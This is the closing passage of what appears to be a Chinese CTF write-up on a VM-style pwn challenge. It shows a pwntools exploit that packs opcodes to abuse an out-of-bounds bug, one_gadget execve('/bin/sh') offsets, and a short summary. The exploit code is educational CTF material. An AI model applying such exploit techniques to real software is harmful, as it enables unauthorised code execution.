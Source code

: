 ```python
s(p64(one))

sla("Size:",9)

def pack(code, dst, op2, op1):
    res =  code<<24
    res += dst<<16
    res += op2<<8
    res += op1
    return str(res)

p.recvuntil("[+++++++++++++++++++++++++++++++++++++++++++++++++++++++++]")
p.sendline(pack(0xa,0,0x10,0))
p.sendline(pack(0xa,0,0x60,1))
p.sendline(pack(0xa,0,0x60,2))
p.sendline(pack(0xc,0,0,1))
p.sendline(pack(0xb,0,0,0))# read
p.sendline(pack(0xa,0,0x60,0))
p.sendline(pack(0xa,0,0x60,1))
p.sendline(pack(0xb,1,0,1))
p.sendline(pack(0xc,0,0,2))

p.interactive()
'''
0x4f2a5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f302 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a2fc execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
'''
```

## 总结

总的来说，这类题前期工作会多一点，但漏洞利用往往只用得上部分功能，数组越界也是常见的漏洞，现在做的题比较少，暂时只能简单总结，后续会继续更新























